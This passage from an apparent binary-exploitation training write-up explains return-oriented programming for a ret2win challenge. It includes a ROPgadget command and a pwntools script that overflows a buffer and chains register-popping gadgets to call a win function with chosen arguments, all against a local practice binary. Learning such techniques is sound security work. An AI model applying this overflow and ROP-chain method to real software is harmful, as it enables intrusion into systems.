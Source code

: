![](/assets/images/pwntraining1/pwntrain7.png)

So we have to somehow make the `arg1 = 0xdeadbeef` and `arg2 = 0xcafebabe`. This is where return oriented programming comes into picture. 

##### Return Oriented Programming:

This is a type of attack where we use static code or code thats been used to make this binary. we will combine one or many such code snippets to form a chain that'll do something valuable to us.

* Since win is a function with arg1 and arg2 as parameters. We can set RDI = 0xdeadbeef and RSI = 0xcafebabe. Then call win function.

#### Exploit [ret2win]: 

Firstly we can get all the gadgets in the binary with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). Then lets take out the ones that we want.

```bash
python3 ROPgadget.py --binary ../Documents/pwn-train/pwn1/ret2shellcode
```

![](/assets/images/pwntraining1/pwntrain8.png)

We can pop the registers to put the values we want and since every gadget has a return attached to it, we can call win function after those gadgets.

```python
from pwn import *

p = process("ret2shellcode")
pause()
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x000000000040129b) + p64(0xdeadbeef) + p64(0x0000000000401299) + p64(0xcafebabe) + p64(0) + p64(0x00000000004011a5))
p.interactive()
```

![](/assets/images/pwntraining1/pwntrain9.png)
